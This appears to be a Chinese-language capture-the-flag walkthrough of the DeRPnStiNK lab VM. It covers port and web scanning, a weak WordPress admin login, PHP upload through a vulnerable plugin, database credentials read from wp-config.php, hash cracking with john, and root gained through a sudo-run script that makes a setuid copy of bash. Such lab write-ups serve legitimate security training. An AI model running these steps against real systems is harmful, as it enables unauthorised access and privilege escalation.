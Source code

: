 ## port scan

```shell
# Nmap 7.94SVN scan initiated Sun Feb  9 22:57:00 2025 as: nmap -sT --min-rate=8899 -p- -oN nmap_result/port 192.168.56.147
Nmap scan report for 192.168.56.147 (192.168.56.147)
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

```shell
# Nmap 7.94SVN scan initiated Sun Feb  9 22:57:47 2025 as: nmap -sT -sVC -O -p21,22,80 -oN nmap_result/detils 192.168.56.147
Nmap scan report for 192.168.56.147 (192.168.56.147)
Host is up (0.0010s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 12:4e:f8:6e:7b:6c:c6:d8:7c:d8:29:77:d1:0b:eb:72 (DSA)
|   2048 72:c5:1c:5f:81:7b:dd:1a:fb:2e:59:67:fe:a6:91:2f (RSA)
|   256 06:77:0f:4b:96:0a:3a:2c:3b:f0:8c:2b:57:b5:97:bc (ECDSA)
|_  256 28:e8:ed:7c:60:7f:19:6c:e3:24:79:31:ca:ab:5d:2d (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: DeRPnStiNK
| http-robots.txt: 2 disallowed entries 
|_/php/ /temporary/
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 08:00:27:1F:C3:09 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## web

查看页面源码，发现flag1

`curl http://192.168.56.147/`

```
flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166)
```

目录扫描

```shell
dirb http://192.168.56.147              

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Feb 10 02:08:50 2025
URL_BASE: http://192.168.56.147/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.147/ ----                                                                                                                            
+ http://192.168.56.147/index.html (CODE:200|SIZE:1298)
==> DIRECTORY: http://192.168.56.147/javascript/
==> DIRECTORY: http://192.168.56.147/js/
==> DIRECTORY: http://192.168.56.147/php/                                                                                                                                
+ http://192.168.56.147/robots.txt (CODE:200|SIZE:53)
+ http://192.168.56.147/server-status (CODE:403|SIZE:294)
==> DIRECTORY: http://192.168.56.147/temporary/
==> DIRECTORY: http://192.168.56.147/weblog/                                                           
==> DIRECTORY: http://192.168.56.147/php/phpmyadmin/

---- Entering directory: http://192.168.56.147/temporary/ ----
+ http://192.168.56.147/temporary/index.html (CODE:200|SIZE:12)

---- Entering directory: http://192.168.56.147/weblog/ ----
+ http://192.168.56.147/weblog/index.php (CODE:200|SIZE:14912)
==> DIRECTORY: http://192.168.56.147/weblog/wp-admin/
==> DIRECTORY: http://192.168.56.147/weblog/wp-content/
==> DIRECTORY: http://192.168.56.147/weblog/wp-includes/
```

枚举wordpress

```
wpscan --url http://derpnstink.local/weblog/
```

```shell
[i] Plugin(s) Identified:

[+] slideshow-gallery
 | Location: http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/
 | Last Updated: 2024-09-25T13:06:00.000Z
 | [!] The version is out of date, the latest version is 1.8.4
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.4.6 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://derpnstink.local/weblog/wp-content/plugins/slideshow-gallery/readme.txt
```

![image-20250210151454634](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250210151454634.png)

该插件存在文件上传漏洞

`cmseek -u http://192.168.56.147/weblog/`

![](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250210151655835.png)

2个用户

```
unclestinky
admin
```

弱口令`admin:admin`进入后台

上传php文件即可

![image-20250210151830011](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250210151830011.png)

## 提权

查看`wp-config.php`

```
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');
```

登录mysql

```mysql
mysql> select user_login,user_pass,flag2 from wp_users;
+-------------+------------------------------------+-------+
| user_login  | user_pass                          | flag2 |
+-------------+------------------------------------+-------+
| unclestinky | $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41 |       |
| admin       | $P$BgnU3VLAv.RWd3rdrkfVIuQr6mFvpd/ |       |
+-------------+------------------------------------+-------+
```

爆破hash`$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41`

`john hash --wordlist=/usr/share/wordlists/rockyou.txt`

```
wedgie57
```

登录wordpress后台，拿到flag2

![image-20250210152544976](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250210152544976.png)

发现主机存在两个用户，进行密码喷洒

```sh
www-data@DeRPnStiNK:/home$ su - stinky
Password: wedgie57
stinky@DeRPnStiNK:~$
```

```sh
stinky@DeRPnStiNK:~$ ls -laR Desktop
Desktop:
total 12
drwxr-xr-x  2 stinky stinky 4096 Nov 13  2017 .
drwx------ 12 stinky stinky 4096 Feb 10 10:18 ..
-rwxr-xr-x  1 stinky stinky   72 Nov 12  2017 flag.txt
```

`flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)`

```sh
stinky@DeRPnStiNK:~/ftp/files/network-logs$ cat derpissues.txt
12:06 mrderp: hey i cant login to wordpress anymore. Can you look into it?
12:07 stinky: yeah. did you need a password reset?
12:07 mrderp: I think i accidently deleted my account
12:07 mrderp: i just need to logon once to make a change
12:07 stinky: im gonna packet capture so we can figure out whats going on
12:07 mrderp: that seems a bit overkill, but wtv
12:08 stinky: commence the sniffer!!!!
12:08 mrderp: -_-
12:10 stinky: fine derp, i think i fixed it for you though. cany you try to login?
12:11 mrderp: awesome it works!
12:12 stinky: we really are the best sysadmins #team
12:13 mrderp: i guess we are...
12:15 mrderp: alright I made the changes, feel free to decomission my account
12:20 stinky: done! yay
```

```sh
stinky@DeRPnStiNK:~/Documents$ ls -la
total 4300
drwxr-xr-x  2 stinky stinky    4096 Nov 13  2017 .
drwx------ 12 stinky stinky    4096 Feb 10 10:18 ..
-rw-r--r--  1 root   root   4391468 Nov 13  2017 derpissues.pcap
```

存在一个流量包

![image-20250210153218688](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250210153218688.png)

`mrderp:derpderpderpderpderpderpderp`

切换mderp用户

```sh
stinky@DeRPnStiNK:~/Documents$ su - mrderp
Password: derpderpderpderpderpderpderp
mrderp@DeRPnStiNK:~$ sudo -l
[sudo] password for mrderp: derpderpderpderpderpderpderp

Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
```

新建`binaries`和`derpy.sh`

```shell
mrderp@DeRPnStiNK:~$ ls -la binaries
ls -la binaries
total 12
drwxrwxr-x  2 mrderp mrderp 4096 Feb 10 08:20 .
drwx------ 11 mrderp mrderp 4096 Feb 10 10:18 ..
-rwxrwxr-x  1 mrderp mrderp   54 Feb 10 08:21 derpy.sh
mrderp@DeRPnStiNK:~$ cat binaries/derpy.sh
cat binaries/derpy.sh
#!/bin/bash
cp /bin/bash /tmp/bash;chmod +s /tmp/bash
```

```sh
mrderp@DeRPnStiNK:/tmp$ ls
bash  linpeas.sh
mrderp@DeRPnStiNK:/tmp$ ./bash -p
bash-4.3# id
uid=1000(mrderp) gid=1000(mrderp) euid=0(root) egid=0(root) groups=0(root),1000(mrderp)
bash-4.3# whoami
root
```

```sh
bash-4.3# cat flag.txt
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!

Hit me up on twitter and let me know your thoughts!

@securekomodo
```

